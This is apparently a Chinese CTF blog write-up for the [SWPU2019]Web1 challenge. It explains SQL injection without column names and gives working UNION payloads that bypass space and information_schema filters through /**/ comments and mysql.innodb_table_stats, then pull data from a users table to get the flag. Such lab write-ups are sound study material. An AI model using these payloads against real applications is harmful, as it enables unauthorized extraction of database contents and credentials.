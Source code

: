 ```yaml
---

title: 日常练习23——无列名注入

date: 2021-04-23 19:40:07

tags: 练习

categories: test70

---
```

今天学到一个新的sql注入方式——无列名注入，现在做一下记录。  

# [SWPU2019]Web1  
打开题目，发现是一个登陆界面，可以注册，那么我们就先注册一个账号登入进去。  

[![](https://img.imgdb.cn/item/6084e01fd1a9ae528f3c8470.png)](https://img.imgdb.cn/item/6084e01fd1a9ae528f3c8470.png)  

发现是一个发布广告的界面，先发一条广告测试一下。  

[![](https://img.imgdb.cn/item/6084e062d1a9ae528f3d56fc.png)](https://img.imgdb.cn/item/6084e062d1a9ae528f3d56fc.png)  

随便测试了一条广告，可以看到成功发布了，显示的就是我们写入的广告名和广告内容。   

对于这种发布广告并且回显的题目，不是xxs攻击就是sql注入，我先测试了xxs攻击，发现虽然确实存在xxs的漏洞，可以回显，但是却没有什么可以利用的地方，那么接着就只能考虑sql注入了。   

这里我犯了一个错误，因为一开始看到url栏里有?id=1的信息，我以为是在这里有sql注入，其实并不是这样的，这道题的sql注入点在我们申请发布广告时的广告名这里。   

比如我们申请一个广告，广告名为：  

	-1' union select 1,2,3#  

[![](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)  

发现有字符被过滤了，这也说明这里确实存在sql注入的地方。  

如果我们这样构造   

	-1' union select 1,2,3'  

却可以成功申请，但是广告名却变成**-1'unionselect1,2,3'**，并且会出现sql的报错。  

[![](https://img.imgdb.cn/item/6084e2cfd1a9ae528f45b929.png)](https://img.imgdb.cn/item/6084e2cfd1a9ae528f45b929.png)   

在报错时可以发现它过滤了空格，同时我们也可以发现这道题目的sql注入不再时以#或者--+来闭合而是通过单引号来闭合。（这个要经过不断测试才能得出）  

那么接下来我们就是查询列数，并查看是哪几位有回显。  

	-1'/**/union/**/select/**/1,2,3,4,5'  

[![](https://img.imgdb.cn/item/6084e442d1a9ae528f4aaeb7.png)](https://img.imgdb.cn/item/6084e442d1a9ae528f4aaeb7.png)  

发现列数还是少了，我们一个一个加，发现到22的时候成功出现回显。  

	-1'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084e541d1a9ae528f4dc1f3.png)](https://img.imgdb.cn/item/6084e541d1a9ae528f4dc1f3.png)   

回显是2，3位，接着就是查数据库名。  

	-1'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084e59fd1a9ae528f4eee58.png)](https://img.imgdb.cn/item/6084e59fd1a9ae528f4eee58.png)  

得到数据库名web1，然后查表名。  

	-1'union/**/select/**/1,database(),(select group_concat(table_name) from information_schema.tables where table_schema='web1'),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

但是发现被拦截了

[![](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)](https://img.imgdb.cn/item/6084e1f3d1a9ae528f42a5ae.png)    

看了别人的wp发现应该是information _schema.tables的某个单词被过滤了，但是但Mysql5.6及以上版本中 innodb _index _stats 和innodb _table _stats这两个表中都包含所有新创建的数据库和表名，所以我们可以这样构造：  

	-1'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

来绕过information _schema.tables的过滤（又学到一个新的绕过小方法）。  

[![](https://img.imgdb.cn/item/6084e75ad1a9ae528f544cdd.png)](https://img.imgdb.cn/item/6084e75ad1a9ae528f544cdd.png)  

得到表名，但是根据查询表名的过滤来看，我们如果使用information _schema.columns应该也会被过滤，但是我们却没有另外的表来绕过查询列名了，那么我们该如何在不知道列名的情况下查询呢？这里就要用到无列名注入了。   

---

## 无列名注入

这里我使用别的大佬的MySQL测试图片来讲解。  

要想了解无列名注入就要先了解无列名查询。  

顾名思义，无列名查询就是不需要列名就能查询表中每一列数据。比如下面这个叫xxx的表  

[![](https://img.imgdb.cn/item/6084eaf1d1a9ae528f854b56.png)](https://img.imgdb.cn/item/6084eaf1d1a9ae528f854b56.png)

它有三列，分别为：id，user,password，我们用无列名查询看一下  

	select 1,2,3 union select * from xxx;  

[![](https://img.imgdb.cn/item/6084eb77d1a9ae528f8aa1d4.png)](https://img.imgdb.cn/item/6084eb77d1a9ae528f8aa1d4.png)  

可以看到，此时得到了一个虚拟表，列名分别为1，2，3，其中存储了xxx表中的所有数据。  

注意，在查询的时候语句的字段数要和表中的一样，否则会报错。  

而我们的无列名注入就是利用无列名查询，通过无列名查询构造一个虚拟表，在构造此表的同时查询其中的数据。  

	select `2` from (select 1,2,3 union select * from xxx)n  

这句查询语句就是一个典型的无列名查询，这个语句中的结尾的n是我们创建的新的虚拟表的名字，可以任意输入字符。而select 1,2,3 union select * from xxx则是为xxx这个表的列名赋予了新的列名，分别为1，2.3。而我们查询的是这个虚拟表的列名为2的信息。  

这里的2要用反引号括起来，这是一个细节。  

[![](https://img.imgdb.cn/item/6084ed4bd1a9ae528f9ae187.png)](https://img.imgdb.cn/item/6084ed4bd1a9ae528f9ae187.png)  

可以看到成功查询到了第二列的信息。  

但是在做题过程中，它可能会过滤反引号``，这时我们就需要给字段取别名。  

	select 1 as a,2 as b,3 as c union select * from xxx;  

这里的as就是取别名的操作。  

[![](https://img.imgdb.cn/item/6084ee4bd1a9ae528fa251cf.png)](https://img.imgdb.cn/item/6084ee4bd1a9ae528fa251cf.png)  

可以看到列名被换成了a,b,c，我们也就可以使用a,b,c来查询。  

以上就是关于无列名注入的基本讲解。  

---  

接下来我们回到题目，因为不能直接查询列名，我们使用无列名注入。  

这里的表有  

	FLAG_TABLE,news,users,gtid_slave_pos,ads,users  

要想找flag要一个个试，我们这里直接说结果，flag在user表中。  

这个表有三列，这个需要自己和上面一样一个一个判断，我们先查询第二列的内容。  

	-1'union/**/select/**/1,(select/**/group_concat(aa)/**/from/**/(select/**/1,2/**/as/**/aa,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084f087d1a9ae528fb172a0.png)](https://img.imgdb.cn/item/6084f087d1a9ae528fb172a0.png)  

发现有flag和admin字符，那么flag应该在第三列。  

	-1'union/**/select/**/1,(select/**/group_concat(aa)/**/from/**/(select/**/1,2,3/**/as/**/aa/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'  

[![](https://img.imgdb.cn/item/6084f0f4d1a9ae528fb41ff1.png)](https://img.imgdb.cn/item/6084f0f4d1a9ae528fb41ff1.png)  

得到flag。   

# 小结  

这道题是一个新的关于sql注入的知识点，也就是无列名注入，原理并不难理解，实际操作也不难，而这道题目之外的小知识点也需要记录，比如存放所有表名的并不是只有那一个表，取别名来绕过反引号过滤等等。只能说sql注入路还很远。要学的还有很多  

下面附上sql无列名注入学习博客：  

[sql注入之无列名注入](https://blog.csdn.net/weixin_46330722/article/details/109605941?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161932292416780255247671%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=161932292416780255247671&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-109605941.first_rank_v2_pc_rank_v29&utm_term=%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5)